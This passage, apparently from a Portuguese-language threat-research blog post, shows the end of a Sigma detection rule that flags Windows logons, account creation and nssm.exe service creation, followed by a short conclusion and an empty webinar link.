      EventID:
      - 4624  # Successful logon
      - 4625  # Failed logon
    selection_user_creation:
      EventID:
      - 4720  # User account creation
      - 4722  # User account enabled
      - 4732  # User added to security-enabled global group
    selection_service_creation:
      EventID:
      - 7045  # Criação de novo serviço
    selection_process_creation|contains:
      EventID:
      - 4688 # Um processo foi criado.
      process.name:
      - 'nssm.exe'
    condition: selection_logon or selection_user_creation or (selection_service_creation and selection_process_creation)
fields:
    - EventID
    - user.name
    - process.name
falsepositives:
    - "Ações administrativas legítimas ao criar contas e tarefas agendadas para manutenção ou backup de sistemas."
level: high
```

## Conclusão

Esperamos que você que leu ou assistiu o Webinar, possa ter compreendido a inteligência que trouxemos nesta pesquisa. Qualquer dúvida, é só nos contactar.

## Link do Webinar

Caso você não pode participar do Webinar de apresentação da pesquisa, ou gostaria rever, basta clicar neste [link]().